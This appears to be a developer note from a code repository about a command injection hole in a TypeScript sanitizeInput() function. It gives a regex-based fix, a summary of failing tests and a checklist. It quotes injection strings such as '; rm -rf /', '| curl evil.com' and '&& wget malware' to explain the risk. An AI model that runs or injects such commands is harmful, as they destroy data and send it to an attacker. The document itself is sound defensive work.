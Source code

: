 # CRITICAL SECURITY FIXES NEEDED

## 🔴 URGENT: Command Injection Vulnerability

### Problem
The `sanitizeInput()` function in `/src/security/InputValidator.ts` is NOT removing dangerous characters, leaving the system vulnerable to command injection attacks.

### Current State (BROKEN)
```typescript
// Test input: "; rm -rf /"
// After sanitizeInput(): "; rm -rf /" (NO CHANGE!)
```

### Required Fix
```typescript
// src/security/InputValidator.ts
export function sanitizeInput(input: string): string {
  if (!input) return '';
  
  // Remove command injection characters
  let sanitized = input
    .replace(/[;&|`$()]/g, '')     // Shell metacharacters
    .replace(/\r?\n/g, ' ')         // Newlines
    .replace(/\x00/g, '')           // Null bytes
    .replace(/[\x1B\x9B]/g, '')     // ANSI escape sequences
    .replace(/[\u202E\uFEFF]/g, '') // Unicode direction/zero-width
    .trim();
    
  return sanitized;
}
```

## Test Failures Summary

### 1. Input Validation Tests (`input-validation-security.test.ts`)
- **Failing**: sanitizeInput tests - dangerous characters not removed
- **Impact**: Command injection possible in all user inputs

### 2. MCP Tools Security Tests (`mcp-tools-security.test.ts`) 
- **Issue**: Import errors due to ESM/CommonJS
- **Fix**: Remove `__filename`/`__dirname`, use `process.cwd()`

### 3. Security Validators Tests (`security-validators.test.ts`)
- **Status**: Depends on fixing sanitizeInput first

## Quick Fix Commands
```bash
# 1. Fix the sanitizeInput function
code src/security/InputValidator.ts

# 2. Test the fix
npm test -- __tests__/security/tests/input-validation-security.test.ts

# 3. Run all security tests
npm run security:all

# 4. If all pass, commit and push
git add -A
git commit -m "Fix critical command injection vulnerability in sanitizeInput"
git push
```

## Validation Checklist
- [ ] sanitizeInput removes: ; | & $ ` ( )
- [ ] sanitizeInput removes: \n \r \x00
- [ ] sanitizeInput removes: ANSI escapes
- [ ] All input validation tests pass
- [ ] All security tests pass
- [ ] No regression in existing tests

## Why This Matters
Without proper input sanitization, attackers can:
- Execute arbitrary commands on the server
- Delete files with `; rm -rf /`
- Exfiltrate data with `| curl evil.com`
- Install backdoors with `&& wget malware`

This MUST be fixed before any production use!